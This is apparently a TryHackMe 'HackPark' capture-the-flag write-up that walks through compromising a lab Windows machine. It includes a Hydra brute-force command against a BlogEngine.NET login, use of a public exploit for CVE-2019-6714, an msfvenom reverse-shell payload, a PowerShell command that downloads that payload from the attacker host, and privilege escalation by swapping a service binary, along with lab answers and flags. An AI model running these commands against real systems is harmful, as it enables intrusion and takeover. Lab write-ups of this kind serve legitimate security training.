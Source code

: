 
# HackPark CTF Write-Up
# Challenge Title: HackPark

## Platform
TryHackMe

## Difficulty
Medium

## Description
Bruteforce a website's login with Hydra, identify and use a public exploit, then escalate your privileges on this Windows machine!

## Tools and Techniques Used
- Hydra
- Burp Suite
- Metasploit
- WinPEAS
- Linux commands (e.g., `ls`, `cat`)
- SSH
- Python script

## Step-by-Step Solution
**IP Addresses:**
- My IP address: 10.10.50.107
- Target machine IP address: 10.10.144.62

## Task 1: Deploy the Vulnerable Windows Machine

1. **Deploy the Machine:**
   After deploying the vulnerable Windows machine, I accessed its web server.

  ![HackParkScreenShot1](https://github.com/user-attachments/assets/d05c8d98-3cea-470e-be76-f5627615299d)

2. **Identify the Clown on the Homepage:**
   By examining the source code of the website, I found a clown image link locate at: http://<IP>image.axd?picture=/26572c3a-0e51-4a9f-9049-b64e730ca75d.jpg
   I performed a reverse image search using Google and discovered that the clown's name is **Pennywise**.
![HackParkScreen2 0](https://github.com/user-attachments/assets/db3a1e3b-7f27-4fc0-8a8d-0a085848e704)
![HackParkScreen2](https://github.com/user-attachments/assets/063521ef-9b36-47e7-a01b-e9e8f5cca08e)

## Task 2: Brute-Forcing Login with Hydra

In the next step, I needed to brute-force the login using **Hydra**.

1. **Intercept the Request:**
   Using Burp Suite, I intercepted the request from the **Sign In** action.
![HackPark3](https://github.com/user-attachments/assets/c5a9b3bf-1ab6-4fd9-b0fb-f4fc20a83290)

   - **Request Type:** The login form uses the **POST** request type.

2. **Brute-Force Credentials:**
   With the request information, I executed the following command to find the credentials:

   ```
   hydra -l admin -P rockyou.txt 10.10.144.62 http-post-form "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Bjdg0T4vJInmW5tUM8x5txmfsq8hz6JGO83P0kbnaJq966zSeFeDAxLS%2BXyw4U4S%2FgpkPbUDHuPw14Mx2Q2QJRFxJ7kenDSk54xKXAp9wDV4gVOW3yEZCH93n0756GyaZ8EyMi58wMwEivOw0zpcHO8xp8e%2Bj32e7h3iv5zKqryGFUPE&__EVENTVALIDATION=31Qm85XIxQI11Fi3HPbRUY6kn21c%2F0zPSqk2UvIRBUu1Tt4QS4oLN1VfqrwJsGOUA5SWiSRdcq5xSwvpOpMlWpc%2FfuQa%2BRGsBlT0juZD%2BREOwscUWk%2BwRvwxsVfiEUUV6Hu35MTQshjrc21mdMKy7m8SMyNHNImtbJDftdJDzqYsNqF7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
   ```
![HackPark4](https://github.com/user-attachments/assets/37e9ff25-9ea6-43fb-b836-6e2f0d59f505)

   - I successfully found the password **1qaz2wsx**. The username was already evident in the source code, as it is the default credential for this blogengine.net.

3. **Hydra Capabilities:**
   Hydra is versatile, capable of brute-forcing various protocols beyond HTTP forms, including FTP, SSH, SMTP, and SMB.

## Task 3: Compromise the Machine

1. **Login to the Application:**
   Using the credentials `admin:1qaz2wsx`, I logged into the application and identified the version of blogengine.net being used, which is vulnerable to **CVE-2019-6714** due to path traversal vulnerabilities.

![HackPark5](https://github.com/user-attachments/assets/912d9863-3bb2-4c02-967c-6797c39a4fe8)

2. **Exploit Research:**
   I found an exploit for this vulnerability on Exploit-DB:
   [Exploit DB - CVE-2019-6714](https://www.exploit-db.com/exploits/46353).

3. **Upload Malicious File:**
   After editing the exploit with the correct attacker IP address and renaming the file appropriately, I uploaded it under the **Content Posts** section of blogengine:
![HackPark6](https://github.com/user-attachments/assets/c8ce9370-8849-49e8-ac77-aedc86bf4f7a)

![HackPark7](https://github.com/user-attachments/assets/b3b2275e-ad7e-4c06-8cb9-7d77ba240329)

4. **Set Up a Listener:**
   I configured a listener to catch the reverse shell.
![HackPark8](https://github.com/user-attachments/assets/307ea096-37b1-4622-a581-4147c3f0c068)


5. **Accessing the File:**
   Using a web browser, I navigated to the location of the uploaded file:

![HackPark9](https://github.com/user-attachments/assets/a81efce8-5eb8-4d9c-b2d0-c9e599219f4f)


   - This action successfully yielded a reverse shell.
![HackPark10](https://github.com/user-attachments/assets/8bb2689c-3948-4efb-9e33-bb5dee4e2ec6)

6. **Web Server User:**
   The final question was, **Who is the web server running as?** The answer is **iis apppool\blog**.

## Task 4: Windows Privilege Escalation

1. **Reverse Shell with Msfvenom:**
   I created another reverse shell using **msfvenom**:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.50.107 LPORT=4446 -f exe > reverse.exe
   ```
![HackPark10 0](https://github.com/user-attachments/assets/9b3c1e40-db48-434a-bedc-1e6ee60bfd35)


2. **Download Reverse Shell on Target:**
   Using PowerShell, I downloaded the reverse shell to the target machine:

   ```
   powershell -c wget "http://10.10.50.107:4448/reverse.exe" -outfile 'rev.exe'
   ```
![HackPark11](https://github.com/user-attachments/assets/a2475826-6a38-41dc-b430-b9942487654a)


3. **Configure Meterpreter:**
   I set up the Meterpreter session using Metasploit.
![MetaSploit1](https://github.com/user-attachments/assets/72bf2d24-1334-4011-a267-c4b8ffb44693)
![MetaSPloit2](https://github.com/user-attachments/assets/33aed50b-a42f-4181-8738-2cea88506f9c)
![MetaSploit3](https://github.com/user-attachments/assets/a30b0cd4-2e02-4888-8d3e-deb272fac578)



4. **OS Version:**
   I answered the following question regarding the OS version:
   - **What is the OS version of this Windows machine?**  
   Answer: **Windows 2012 R (6.3 Build 9600)**.

5. **Abnormal Service:**
   To find the abnormal service running, I performed further enumeration.
![UploadWinPeasReal](https://github.com/user-attachments/assets/962bf7bf-9ecd-4db9-829d-74d953b6525d)

6. **Open Shell and Run WinPEAS:**
   I opened a shell and executed **winPEAS**:
![Openning a shell](https://github.com/user-attachments/assets/9c3f20a8-1a88-430f-be71-4deed59fedc3)
![WinPEAS1](https://github.com/user-attachments/assets/f5fbed97-dc53-4634-a83c-afb16a67e836)


   - The answer to the question, **What is the name of the abnormal service running?** is **WindowsScheduler**.

7. **Exploit the Abnormal Service:**
   I located a suspicious file:
   - **File Path:** `c:\Program Files (x86)\SystemScheduler\Events\20198415519.INI_LOG.txt`.

   - **What is the name of the binary you're supposed to exploit?**  
   Answer: **Message.exe**.

8. **Final Reverse Shell:**
   To escalate privileges, I created another TCP reverse shell, renaming it to **Message.exe** to run with administrator privileges.
![GettingRoot](https://github.com/user-attachments/assets/2addff4f-43f8-42fa-bcc2-5ba9df3e6530)


   - This resulted in root access on the box:
![Whoami](https://github.com/user-attachments/assets/c0ee0dd6-08b8-4415-8b78-561c2deb2f55)


9. **Capture Flags:**
   I retrieved the flags:
   - **Flag for Jeff:**
  
![FlagJeff](https://github.com/user-attachments/assets/a3dd2257-fcd1-49d7-bd7b-a5fef17ef07d)

   - **Root Flag:**

![Root](https://github.com/user-attachments/assets/81ff9633-9e01-435e-b3f6-4b940585fbec)

   - **System Information:**
![DateWithLinPEAS](https://github.com/user-attachments/assets/bfb1ffa1-f2fa-408b-8bea-109b1ac19702)

![SystemInfoAdmin](https://github.com/user-attachments/assets/ee4377a3-dcd9-471b-ac89-772735e88242)

   - **Original Install Time:**
     - Using **winPEAS**, the original install time was found to be **8/3/2019, 10:43:23 AM**.
